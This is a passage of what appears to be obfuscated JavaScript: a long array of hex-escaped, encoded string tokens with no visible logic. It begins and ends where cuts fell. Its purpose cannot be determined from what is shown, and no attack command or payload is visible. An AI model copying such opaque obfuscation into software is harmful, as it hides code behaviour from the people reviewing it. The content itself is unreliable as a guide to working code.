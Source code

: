 71','\x45\x73\x4f\x7a\x77\x71\x50\x43\x69\x73\x4b\x6d','\x77\x35\x31\x46\x77\x70\x52\x64\x4c\x77\x3d\x3d','\x77\x72\x33\x44\x73\x73\x4b\x43\x77\x36\x73\x3d','\x52\x73\x4f\x34\x77\x70\x66\x44\x68\x77\x6b\x3d','\x77\x72\x6a\x44\x6b\x38\x4b\x58\x77\x36\x64\x4e','\x45\x30\x68\x6d\x46\x4d\x4b\x65','\x77\x34\x54\x44\x6b\x78\x66\x43\x70\x63\x4f\x66','\x77\x72\x55\x4e\x61\x57\x55\x59','\x5a\x63\x4f\x34\x56\x73\x4b\x50\x77\x35\x45\x3d','\x77\x6f\x62\x44\x6f\x38\x4f\x2b\x63\x6e\x38\x3d','\x77\x36\x6a\x44\x73\x52\x2f\x44\x67\x4d\x4f\x59','\x77\x37\x63\x34\x77\x36\x50\x43\x73\x4d\x4b\x5a','\x42\x63\x4b\x4f\x48\x73\x4f\x2f\x5a\x67\x3d\x3d','\x53\x4d\x4f\x37\x42\x54\x7a\x43\x74\x51\x3d\x3d','\x77\x6f\x54\x44\x69\x63\x4f\x6c\x65\x6e\x45\x3d','\x77\x35\x73\x43\x77\x37\x6a\x43\x69\x63\x4b\x35','\x41\x32\x4c\x44\x73\x52\x50\x43\x6d\x41\x3d\x3d','\x77\x71\x45\x32\x77\x34\x76\x44\x72\x7a\x34\x3d','\x45\x7a\x7a\x44\x6e\x6b\x6a\x44\x75\x41\x3d\x3d','\x77\x37\x37\x44\x75\x73\x4b\x61\x4b\x4d\x4b\x77\x77\x35\x30\x47\x77\x35\x64\x32\x46\x38\x4f\x63\x44\x73\x4f\x48','\x35\x61\x65\x54\x35\x70\x36\x79\x35\x6f\x43\x56\x35\x35\x71\x52\x77\x34\x39\x5a\x36\x59\x53\x4c\x35\x62\x53\x41\x35\x61\x61\x42\x35\x4c\x75\x65\x77\x35\x33\x44\x72\x73\x4b\x39\x37\x37\x32\x4b\x77\x71\x6e\x43\x76\x4d\x4b\x4e\x35\x71\x47\x37\x35\x36\x36\x47\x37\x37\x2b\x69\x35\x36\x32\x46\x35\x36\x79\x6f\x35\x59\x65\x4a\x35\x4c\x6d\x2f\x36\x5a\x2b\x42\x52\x58\x55\x50\x77\x71\x46\x78\x77\x71\x77\x37\x51\x63\x4b\x4e\x77\x6f\x6e\x6e\x6d\x70\x72\x6b\x75\x49\x76\x6e\x6f\x37\x37\x76\x76\x34\x66\x6f\x72\x4b\x44\x6d\x6a\x49\x66\x6c\x6a\x37\x62\x6c\x68\x71\x48\x6d\x6e\x34\x6a\x6c\x68\x34\x66\x6c\x69\x36\x4c\x6c\x72\x5a\x7a\x6a\x67\x49\x6e\x6f\x76\x35\x50\x6b\x75\x61\x66\x6c\x74\x70\x72\x6c\x68\x70\x54\x6b\x75\x61\x62\x6f\x67\x62\x62\x6c\x69\x49\x37\x6c\x72\x36\x33\x43\x74\x4d\x4b\x73\x62\x4f\x4f\x44\x72\x45\x34\x43\x61\x4f\x65\x73\x6e\x75\x61\x72\x74\x4f\x65\x49\x67\x2b\x57\x48\x72\x4f\x57\x75\x73\x41\x3d\x3d','\x36\x4c\x79\x6e\x35\x70\x6d\x55\x35\x4c\x69\x4b\x35\x4c\x69\x4f\x35\x4c\x6d\x68\x35\x37\x4f\x34\x35\x59\x6d\x39\x57\x63\x4b\x6b\x35\x70\x4f\x38\x35\x4c\x36\x6a\x34\x34\x4f\x51','\x77\x37\x6f\x52\x53\x51\x3d\x3d','\x35\x36\x6d\x45\x36\x5a\x61\x63\x35\x6f\x36\x64\x36\x61\x69\x41\x35\x37\x75\x73\x5a\x2b\x4b\x43\x72\x6d\x72\x43\x73\x4f\x57\x4b\x6e\x2b\x57\x74\x72\x2b\x4b\x43\x74\x45\x6e\x6c\x6b\x5a\x39\x4c\x34\x6f\x43\x39\x4a\x57\x33\x6f\x70\x5a\x2f\x6c\x72\x36\x33\x69\x67\x35\x74\x74\x37\x37\x36\x6e\x35\x4c\x36\x69\x35\x59\x32\x4a\x35\x4c\x32\x76\x35\x35\x6d\x5a\x4c\x52\x50\x44\x6e\x75\x4f\x43\x6e\x41\x3d\x3d','\x77\x37\x4c\x43\x69\x38\x4b\x56\x77\x70\x64\x64','\x49\x6e\x31\x53\x64\x51\x45\x3d','\x63\x4d\x4f\x44\x77\x70\x66\x44\x6e\x7a\x55\x3d','\x77\x6f\x30\x74\x4c\x63\x4b\x2b\x77\x36\x67\x3d','\x77\x34\x55\x6e\x65\x63\x4b\x45\x77\x71\x45\x3d','\x77\x70\x59\x76\x59\x4d\x4f\x70\x77\x71\x73\x3d','\x4a\x6a\x44\x43\x6d\x31\x37\x44\x72\x67\x3d\x3d','\x45\x6b\x52\x37\x41\x33\x38\x3d','\x51\x4d\x4f\x73\x62\x63\x4b\x79\x77\x35\x63\x3d','\x77\x35\x58\x44\x73\x6a\x33\x43\x76\x38\x4f\x69','\x4e\x77\x58\x44\x6a\x30\x48\x44\x6a\x67\x3d\x3d','\x63\x4d\x4f\x73\x77\x6f\x33\x44\x67\x77\x6f\x59\x49\x41\x3d\x3d','\x56\x4d\x4b\x46\x77\x6f\x6e\x44\x75\x4d\x4b\x58','\x64\x38\x4f\x61\x77\x34\x6e\x43\x68\x30\x6f\x3d','\x51\x4d\x4b\x45\x77\x6f\x77\x3d','\x77\x35\x58\x43\x70\x46\x49\x3d','\x48\x6c\x46\x50\x49\x73\x4b\x50\x59\x6d\x4c\x43\x6b\x73\x4b\x2b','\x50\x6d\x39\x55\x65\x52\x5a\x4f','\x4e\x31\x76\x44\x6b\x33\x62\x44\x73\x57\x50\x43\x71\x43\x49\x3d','\x54\x45\x30\x4f\x4b\x78\x37\x43\x67\x38\x4b\x53\x77\x34\x39\x79\x77\x70\x67\x63\x42\x68\x38\x3d','\x77\x36\x33\x44\x73\x51\x58\x43\x6d\x44\x67\x3d','\x50\x6c\x31\x75\x47\x48\x38\x3d','\x77\x71\x37\x44\x73\x4d\x4b\x6a\x4b\x63\x4f\x59','\x64\x4d\x4f\x4e\x77\x34\x4c\x43\x6e\x32\x45\x3d','\x53\x73\x4f\x36\x61\x73\x4f\x55\x48\x51\x3d\x3d','\x4f\x38\x4b\x75\x77\x72\x48\x44\x76\x73\x4f\x55','\x77\x36\x37\x43\x69\x6c\x50\x43\x6d\x69\x77\x3d','\x77\x36\x2f\x44\x73\x52\x2f\x44\x6a\x4d\x4f\x58','\x41\x55\x6a\x44\x6b\x30\x62\x44\x6a\x77\x3d\x3d','\x43\x48\x5a\x39\x4e\x57\x6b\x3d','\x55\x63\x4f\x66\x65\x63\x4f\x48\x47\x77\x3d\x3d','\x4e\x4d\x4f\x42\x77\x6f\x74\x54\x4f\x54\x70\x78','\x77\x34\x50\x44\x70\x41\x58\x43\x72\x52\x7a\x44\x75\x4d\x4b\x78','\x77\x36\x30\x79\x61\x63\x4b\x76\x77\x71\x76\x44\x6a\x67\x72\x44\x76\x73\x4f\x59\x77\x35\x46\x35\x77\x72\x55\x43\x77\x6f\x66\x44\x72\x30\x38\x4d','\x77\x34\x62\x44\x70\x43\x66\x43\x6e\x52\x45\x3d','\x4a\x4d\x4f\x65\x77\x6f\x6c\x4a\x49\x67\x3d\x3d','\x46\x73\x4f\x4f\x77\x37\x6a\x43\x70\x38\x4f\x73','\x4b\x63\x4f\x4e\x77\x37\x59\x32\x65\x73\x4f\x77\x53\x73\x4f\x73\x62\x51\x3d\x3d','\x54\x79\x50\x44\x71\x77\x3d\x3d','\x77\x72\x33\x44\x70\x63\x4b\x51\x77\x37\x78\x2b','\x77\x72\x51\x6b\x77\x35\x58\x44\x67\x67\x3d\x3d','\x77\x72\x56\x77\x4e\x53\x6f\x3d','\x77\x71\x45\x4f\x77\x37\x72\x43\x73\x73\x4b\x48','\x77\x71\x6e\x44\x71\x38\x4f\x76\x52\x6d\x55\x3d','\x57\x63\x4f\x70\x51\x73\x4b\x50\x77\x37\x41\x3d','\x77\x36\x37\x43\x71\x6c\x46\x56\x57\x73\x4b\x49\x4a\x51\x3d\x3d','\x77\x36\x6a\x43\x69\x73\x4b\x2b\x77\x70\x74\x5a','\x77\x71\x72\x44\x75\x4d\x4b\x66\x77\x36\x78\x30\x48\x4d\x4b\x43','\x4d\x73\x4f\x63\x77\x70\x64\x50\x4a\x41\x3d\x3d','\x77\x72\x77\x68\x4e\x4d\x4b\x67\x77\x37\x4c\x44\x6e\x6c\x38\x3d','\x77\x70\x44\x44\x75\x32\x38\x39\x77\x72\x63\x3d','\x77\x37\x62\x44\x6d\x44\x7a\x44\x67\x51\x3d\x3d','\x77\x37\x41\x55\x77\x37\x37\x43\x75\x63\x4b\x41\x4d\x57\x63\x3d','\x77\x36\x48\x43\x71\x6c\x67\x3d','\x77\x6f\x48\x44\x75\x43\x68\x59\x59\x6b\x4c\x43\x75\x41\x3d\x3d','\x77\x6f\x66\x44\x72\x79\x56\x4f\x66\x56\x72\x43\x74\x41\x50\x43\x71\x41\x3d\x3d','\x77\x71\x63\x54\x77\x36\x62\x43\x72\x73\x4b\x61\x66\x58\x77\x3d','\x46\x63\x4b\x70\x42\x63\x4f\x32','\x77\x72\x33\x43\x6b\x69\x52\x7a','\x54\x4d\x4f\x59\x77\x34\x58\x43\x6c\x31\x49\x3d','\x58\x38\x4f\x39\x51\x63\x4b\x48\x77\x34\x55\x3d','\x64\x51\x62\x44\x74\x51\x74\x53','\x77\x36\x66\x44\x6d\x54\